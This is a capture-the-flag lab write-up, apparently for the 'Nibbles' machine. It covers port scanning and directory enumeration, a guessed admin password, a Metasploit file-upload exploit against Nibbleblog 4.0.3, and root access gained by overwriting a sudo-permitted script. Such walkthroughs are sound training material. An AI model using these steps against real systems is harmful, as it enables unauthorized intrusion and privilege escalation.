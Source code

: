 # Machine: Nibbles

## Enumeration

### Services

Start with a full port scan:

```bash
nmap -sS -p- <IP> -oN full_tcp_ports.txt
```

The scan reveals two open ports:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Next, scan the discovered ports in verbose and script mode:

```bash
nmap -sV -sC -O -p22,80 <IP> -oN ports.txt -oX ports.xml

Output:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
```

The OS is identified as Ubuntu.

### Port 80

Running a curl request to gather information:

```bash
curl -v "http://nibbles.htb"
```

I found the following comment in the webpage source:

```php
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Using ffuf for directory enumeration:

```bash
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u "http://nibbles.htb/nibbleblog/FUZZ" -o directory-list-2.3-medium.md -of md -e .php,.txt
```

Notable findings:

* http://nibbles.htb/nibbleblog/README: Identifies the software version as Nibbleblog 4.0.3.
* http://nibbles.htb/nibbleblog/content/: Index page with several folders. Found http://nibbles.htb/nibbleblog/content/private/users.xml revealing a user admin.
* http://nibbles.htb/nibbleblog/admin.php: Admin login page. The password was nibbles.

## Exploitation

Identified a known vulnerability in Nibbleblog 4.0.3:

```bash
searchsploit nibbleblog                 
---------------------------------------------------------------
 Exploit Title                                                 |  Path
---------------------------------------------------------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)          | php/remote/38489.rb
```

Using Metasploit to exploit the vulnerability:

```bash
use exploit/multi/http/nibbleblog_file_upload
```

I obtained a shell as the nibbler user:

```bash
nibbler@Nibbles:/home/nibbler$ whoami
whoami
nibbler
```

## Privilege Escalation

Discovered sudo permissions for nibbler without a password:

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Editing the monitor.sh script to read the root flag:

```bash
echo "cat /root/root.txt" > /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

This documentation outlines the steps taken to enumerate, exploit, and escalate privileges on the Nibbles machine. The structured approach aids in understanding the process and can serve as a reference for similar challenges.

***
